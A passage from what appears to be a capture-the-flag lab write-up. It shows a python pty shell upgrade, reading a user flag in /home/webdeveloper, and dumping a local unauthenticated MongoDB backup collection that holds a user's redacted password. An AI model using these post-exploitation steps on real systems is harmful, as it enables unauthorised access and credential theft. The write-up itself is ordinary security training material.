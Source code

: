```
$ which python3
/usr/bin/python3
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@sky:/$ 
```

We also have permission to read teh first flag.

```
www-data@sky:/$ ls /home
ls /home
webdeveloper
www-data@sky:/$ ls /home/webdeveloper
ls /home/webdeveloper
user.txt
www-data@sky:/$ cat /home/webdeveloper/user.txt
cat /home/webdeveloper/user.txt
<redacted>
```

---
## Privilege Escalation

Enumerating with `ps aux` shows that mongodb is running.

```
mongodb      552  0.6  6.9 1498732 69344 ?       Ssl  19:43   0:24 /usr/bin/mongod --config /etc/mongod.conf
```

We can connect, and enumerating the database shows us the password for `webdeveloper`

```
$ mongo
MongoDB shell version v4.4.6
connecting to: mongodb://127.0.0.1:27017/?compressors=disabled&gssapiServiceName=mongodb
Implicit session: session { "id" : UUID("49dc43ac-6fcd-4a1a-ade1-89aa27906c37") }
MongoDB server version: 4.4.6
show dbs
admin   0.000GB
backup  0.000GB
config  0.000GB
local   0.000GB
use admin
switched to db admin
show tables
system.version
use backup
switched to db backup
show tables
collection
user
db.user.find()
{ "_id" : ObjectId("60ae2661203d21857b184a76"), "Month" : "Feb", "Profit" : "25000" }
{ "_id" : ObjectId("60ae2677203d21857b184a77"), "Month" : "March", "Profit" : "5000" }
{ "_id" : ObjectId("60ae2690203d21857b184a78"), "Name" : "webdeveloper", "Pass" : "<redacted>" }
{ "_id" : ObjectId("60ae26bf203d21857b184a79"), "Name" : "Rohit", "EndDate" : "December" }
{ "_id" : ObjectId("60ae26d2203d21857b184a7a"), "Name" : "Rohit", "Salary" : "30000" }
```
